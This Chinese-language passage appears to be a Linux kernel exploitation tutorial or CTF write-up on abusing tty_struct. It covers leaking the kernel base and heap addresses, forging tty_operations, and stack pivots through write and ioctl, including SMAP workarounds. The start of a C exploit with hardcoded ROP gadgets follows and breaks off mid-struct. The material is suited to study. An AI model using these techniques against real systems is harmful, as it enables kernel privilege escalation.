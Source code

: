 - 泄漏内核基地址  
    需要读功能. 可以用偏移 0x18 处的 ops = ptm\_unix98\_ops, 关闭 kaslr, 从 kallsyms 中读取 ptm\_unix98\_ops. 用泄漏出来的地址减去它, 就是基址了.
- 泄漏 kmalloc-1k 堆地址  
    需要读功能. 可以用偏移 0x38 处的一个链表指针, 它初始指向自身. 读出后减去 0x38 就是当前 tty\_struct 的地址, 也是某个 kmalloc-1k 的堆地址.
- 劫持程序流  
    需要写功能, 覆盖 ops, 伪造一个 tty\_operations.修改 tty\_operations 结构体中某函数指针只能写入一个 gadget ，除了使用 pt\_regs + ret2dir 外还可以利用 tty\_struct 执行tty\_operations 内相关函数指针时的特性。
- write (tty\_write-&gt;do\_tty\_write-&gt;n\_tty\_write-&gt;pty\_write)  
    比如使用 write. 当跳转到 write 时（断点断在pty\_write） 观察寄存器, 发现 rax 就是 tty\_struct.ops, 可以找 gadget 如 mov rsp, rax 进行栈迁移, 这样可以覆盖 tty\_struct.ops 之前的数据来 ROP. 不过这个空间有点小, 不够 ROP 还得再一次栈迁移.

但注意的是劫持write时会对tty的魔数检查

- ioctl （tty\_ioctl-&gt;pty\_unix98\_ioctl）  
    或者使用 ioctl, 它可以通过传递参数控制一些寄存器的值. 需要注意的是, 要使用 ioctl 必须保证魔数正确, driver 是一个内核堆地址.  
    当走到这一步时, rbp = &amp;tty\_struct(有时 rbp 不是 &amp;tty\_struct), 如果将 tty-&gt;op-&gt;ioctl 设为 leave; ret, 即可先将栈迁移到 &amp;tty\_struct + 0x8 处. 将这里设为 pop rsp; ret, &amp;tty\_struct + 0x10 (.driver) 处设为布置有 ROP 链的内核堆地址, 完成第二次栈迁移.
    
    另外此时rax = pty\_unix98\_ioctl函数地址的，如果xchg eax esp ret，会把栈迁移到rax&amp; 0xffffffff，此时该栈会跑到用户态去，然后我们在用户态地方mmap布置相应的rop链就行，但需要关闭smap

这里使用覆盖tty\_operations;为用户态程序伪造的tty\_operations，所以是需要关闭smap的

- 开启了smap怎么办呢？由于其他地方我们可以控制，我们保证tty\_operations是在内核中就行了。我们可以使得 覆盖 ops 函数表为 tty\_addr + 0x20 - 0x60, 那么 ioctl 会指向 tty\_addr + 0x20 这里, 因为这里是我们可以控制的位置. 我们向这里输入栈迁移gadget 的地址，其他函数同理

> write建议在op上构造rop链，ioctl可以在tty上构造rop链
> 
> ### exp

```c
#include <stdio.h>
#include <fcntl.h>
#include <sys/mman.h>
#include <sys/ioctl.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

size_t pop_rdi_ret = 0xffffffff8109047d;
size_t mov_cr4_rdi_pop_rbp_ret = 0xffffffff81004d70;
size_t swapgs_pop_rbp_ret = 0xffffffff81063654;
size_t iretq = 0xffffffff8107c0a6;
size_t xchg_eax_esp_ret = 0xffffffff8100008a;

struct tty_operations {
    struct tty_struct *(*lookup)(struct tty_driver *driver, struct file *filp, int idx);

    int (*install)(struct tty_driver *driver, struct tty_struct *tty);

    void (*remove)(struct tty_driver *driver, struct tty_struct *tty);

    int (*open)(struct tty_struct *tty, struct file *filp);

    void (*close)(struct tty_struct *tty, struct file *filp);

    void (*shutdown)(struct tty_struct *tty);

    void (*cleanup)(struct tty_struct *tty);

    int (*write)(struct tty_struct *tty, const unsigned char *buf, int count);

    int (*put_char)(struct tty_struct *tty, unsigned char ch);

    void (*flush_chars)(struct tty_struct *tty);
```